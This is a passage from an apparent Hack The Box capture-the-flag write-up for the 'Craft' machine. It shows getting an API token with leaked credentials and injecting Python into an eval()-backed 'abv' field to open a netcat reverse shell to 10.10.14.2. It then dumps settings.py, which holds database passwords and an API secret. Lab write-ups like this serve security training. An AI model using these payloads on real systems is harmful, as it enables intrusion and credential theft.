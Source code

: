 `token=$(curl -s -H "Content-Type: application/json" --user dinesh:4aUh0A8PbVJxgd -k https://api.craft.htb/api/auth/login | jq -r .[])
echo $token
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTYzMTU0MTAzfQ.JPg8sJ9enjgL86jy8DJrugK7xaF--wegrVdKXZLono0`

I can now do POST to add new brews:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 666, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.95"}'
null`

When doing a GET, I need to specify the page so I can confirm it's been added:

`curl -k "https://api.craft.htb/api/brew/?per_page=50&page=47"
 {"id": 2351, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.950"}, {"id": 2352, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.400"}], "page": 47, "pages": 47, "per_page": 50, "total": 2341}`

Ok, now it's time to exploit that eval to gain RCE. Because I don't see the results of the eval, I'll first test that the eval works by doing a `sleep` for 5 seconds:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"time\").sleep(5)"}'`

Then after I confirmed that the eval works, I'll use `subprocess` to spawn a reverse shell:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"subprocess\").check_output(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f\", shell=True) or 1"}'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.110] 43065
/bin/sh: can't access tty; job control turned off
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)...
/opt/app #
```

Turns out this is just a container and I need to keep looking to get a shell on the host OS.

## Finding more credentials in MySQL

The `settings.py` file contains the MySQL credentials and the shared api key.

```
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```